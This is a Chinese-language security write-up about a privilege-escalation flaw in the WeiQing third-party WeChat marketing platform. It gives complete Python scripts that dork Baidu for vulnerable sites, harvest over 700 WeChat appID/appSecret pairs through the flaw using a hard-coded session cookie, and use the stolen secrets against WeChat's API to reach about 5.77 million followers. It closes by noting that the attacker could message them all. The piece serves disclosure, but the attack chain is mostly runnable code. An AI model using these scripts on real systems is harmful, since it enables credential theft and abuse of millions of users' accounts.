 # 是谁让你我如此近距离（论第三方微信营销平台的安全隐患）

0x00 简介
=====

开发微信第三方营销平台的人可谓是靠着微信官方开发文档发家的人，他们把开发文档变成产品，变成普通人一看就明白的东西，好多搞营销的不懂技术，好多做技术的不懂营销，他们可谓在技术和营销之前有效的搭了一座桥，让不懂技术的营销者可以通过第三方平台方便的接入微信。

微信本身是安全的，但是第三方平台的安全却没的保证，这篇文章就是想说明，在使用第三方平台便利性的同时埋下的安全隐患

0x01 从一个被忽略的漏洞说起
=====

wooyun漏洞编号：wooyun-2016-0184202  
[WooYun: 微擎最新版可越权操作别人公众号](http://drops.com:8000/%3Ca%20target=)">[WooYun: 微擎最新版可越权操作别人公众号](http://www.wooyun.org/bugs/wooyun-2016-0184202)

很不解如此影响深远的漏洞，为什么会被忽略，是对客户的不负责任，还是对漏洞本身的不了解

接下来就从这个被忽略的漏洞，挖出其背后成千上万受影响的用户

0x02 挖掘过程
=====

1.  百度搜索使用微擎系统的链接
2.  注册并登录受影响的系统
3.  批量获取受影响的系统中的微信appID和appSecret
4.  通过调用微信开发者接口获取相应appID的用户列表
5.  向这些用户发送hello world

**百度搜索使用微擎系统的链接**

```
#!/usr/bin/env python
#coding:utf-8
import requests
import re
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')
def getSearch(url):
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    content = getContent(url, headers)
    selector = etree.HTML(content)
    selectUrl = selector.xpath('//div[@class="f13"]/a[1]/@href')
    urls.extend(selectUrl)
def getSearchUrl(urls):
    for url in urls:
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
        header = "Location"
        content = getRespHeader(url, headers, header)
        selectUrl.append(content)
def getContent(url, headers):
    resp = requests.get(url, headers=headers)
    return resp.text
def getRespHeader(url, headers, header):
    resp = requests.get(url, headers=headers, allow_redirects=False)
    return resp.headers.get(header)
if __name__ == '__main__':
    urls = []
    selectUrl = []
    for i in [0, 10, 20, 30, 40, 50, 60]:
    url = "http://www.baidu.com/s?wd=inurl%%3Aweb%%2Findex.php%%3Fc%%3Duser%%26a%%3Dlogin%%26&pn=%d&ie=utf-8" %i
    getSearch(url)
    getSearchUrl(urls)
    print selectUrl

```

结果搜到63条链接：

![p1](http://drops.javaweb.org/uploads/images/3c5d8bcadc6c188fc4222aef0efc9777ccd8a26a.jpg)

**注册并登录受影响的系统**

本来打算写个脚本批量注册然后出appid和key的，但由于有验证码，又因为本地验证码程序没有跑起来，而且也就60多个网站，于是乎就手工了一下，然后把拿appid和appSecret的过程写了个脚本

**批量获取受影响的系统中的微信appID和appSecret**

```
#!/usr/bin/env python
#coding:utf-8
import requests
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')
header = {"cookie":"7ba5___session=eyJ1aWQiOiIxMTE1IiwibGFzdHZpc2l0IjoiMTQ1ODQ3NTc1MyIsImxhc3RpcCI6IjIxOC4xMDguMTI4LjEwMSIsImhhc2giOiI4YzcyMjFjOTE4Y2U2NjY1ZTdiMTQxYWJlYmRlZTcxOSJ9","User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
def getcontent(url,header):
    resp = requests.get(url, headers=header)
    return resp.text
def getkey(html):
    global count
    rest = []
    selector = etree.HTML(html)
    weixinAppId = selector.xpath('//input[@name="key"]/@value')
    weixinAppSecret = selector.xpath('//input[@name="secret"]/@value')
    weixinAppName = selector.xpath('//input[@name="subname"]/@value')
    if weixinAppId[0] != '' and weixinAppSecret[0] != '' and weixinAppId[0].find('wx') == 0:
        print weixinAppName[0]
    rest.append(weixinAppName[0])
    rest.append(weixinAppId[0])
    rest.append(weixinAppSecret[0])
    str_rest = str(rest).replace('u\'','\'')
    str_rest = str_rest.decode("unicode-escape")
    with open('result.txt', 'a') as fs:
        fs.write(str_rest + '\n')
if __name__ == '__main__':
    for i in range(1, 1056):
        url = "http://wx.xxx.cn/web/index.php?c=account&a=post&uniacid=84&acid=%d" %i
        print url
    html = getcontent(url, header)
    getkey(html)

```

待每个链接都尝试之后，一共捕获到700多个微信appid和secret

![p2](http://drops.javaweb.org/uploads/images/7a003f97f3275a4196fedd852c51b3cb35f69a63.jpg)

**通过调用微信开发者接口获取相应appID的用户列表**

这里通过脚本获取一下这么多微信appid一共涉及多少用户

```
# coding:utf-8
import requests
import ast
count = 0

def getCount(url):
    global count
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    resp = requests.get(url, headers=headers)
    con = ast.literal_eval(resp.text)
    if type(con) == dict and "total" in con:
        count += int(con["total"])

def getAccesstoken(content):
    con = ast.literal_eval(content)
    if type(con) == dict and "access_token" in con:
        url = "https://api.weixin.qq.com/cgi-bin/user/get?access_token=%s" % con["access_token"]
        getCount(url)

def getContent(line):
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) "}
    wxappid = line[1]
    wxsecret = line[2]
    url = "https://api.weixin.qq.com/cgi-bin/token?grant_type=client_credential&appid=%s&secret=%s" % (wxappid, wxsecret)
    resp = requests.get(url, headers=headers)
    getAccesstoken(resp.text)

if __name__ == '__main__':
    with open('result.txt', 'r') as fs:
        for line in fs.readlines():
            line = line.replace('\r', '').replace('\n', '')
            getContent(eval(line))
    print count

```

跑完脚本发现一共涉及到577万用户

![p3](http://drops.javaweb.org/uploads/images/d98db4d8e533859149f88d747aca76a73a81c6fa.jpg)

0x03 结尾
=====

这570多万用户重复率很低，可以向这570万用户推送广告，可以向这570万用户发送消息，可以向这500万用户发送一句"你我如此近距离，你却不知道我是谁"。